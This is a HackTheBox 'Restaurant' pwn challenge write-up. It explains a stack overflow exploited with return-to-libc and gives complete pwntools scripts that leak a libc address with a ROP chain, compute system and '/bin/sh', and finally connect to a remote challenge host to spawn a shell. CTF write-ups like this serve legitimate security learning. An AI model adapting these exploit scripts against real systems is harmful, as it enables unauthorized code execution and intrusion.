# Restaurant - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/Restaurant


## Solution

Basic binary file information first:

<p align="center">

</p>
<p align="center">

</p>

There are two functions in the code: `fill` and `drink`. But only the `fill` looks interesting:

<p align="center">

</p>
<p align="center">

</p>

There is no function with flag, so I decided to try to get the shell on the remote host using **return-to-libc** technique.
First, I found the address where return address is stored:

<p align="center">

</p>
<p align="center">

</p>

The return address starts at byte 40.
The algorithm to reproduce the technique is:
1. Get `puts@plt` and `puts@got` addresses
2. Find the address of `pop rdi; ret` because I needed it to give an argument to the next function
3. Call the `puts@plt` function with `puts@got` address as an argument
4. Return to any program function (I chose main) to avoid program crashing.
5. Get the address of `puts` function in `libc.so.6`

Here I found a "gadget" with `ROPgadgets --binary ./restaurant`:

<p align="center">

</p>

And I wrote the following script:
```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)
p.interactive()
```

After using this script stack looks like this:

```
|---------------------|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|---------------------|
|pop rdi; ret  address|
|---------------------|
|  puts@got  address  |
|---------------------|
|  puts@plt  address  |
|---------------------|
|    main  address    |
|---------------------|
```

Initially, the execution flow goes to the `pop rdi` address, which pops the `puts@got` address from the stack and return to the `puts@plt` address with the `puts@got` as a function argument. After the `puts@plt` is called it resolves the address of the `puts` in the `libc.so.6` and saves it in the `.got` section, from where program retrieves it and prints in console. Finally, the program flow returns to main function:

<p align="center">

</p>

Slight changes in the previous script to show `puts` address in hex format:

```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

print(hex(puts))
p.interactive()
```
<p align="center">

</p>

The next step is to find the base of `libc.so.6`, `system` function in the library and `/bin/sh` string in the library:

```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

libc = ELF('./libc.so.6')
libc_puts = libc.symbols['puts']
base = puts - libc_puts
libc_system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

print(hex(libc_system))
print(hex(binsh))
p.interactive()
```
<p align="center">

</p>

Now everything is ready to fully exploit the program and get the shell:
```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = remote('94.237.53.203', 42292)

plt = elf.symbols['puts']
got = elf.got['puts']
fill = elf.symbols['fill'] # I used the fill function as the return target to keep the script shorter and easier to follow

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(fill)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

libc = ELF('./libc.so.6')
libc_puts = libc.symbols['puts']
base = puts - libc_puts
libc_system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh\x00'))

get_shell = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(0x4010a3) + p64(binsh) + p64(libc_system)
p.sendlineafter(b'>', get_shell)

p.interactive()
```
<p align="center">

</p>
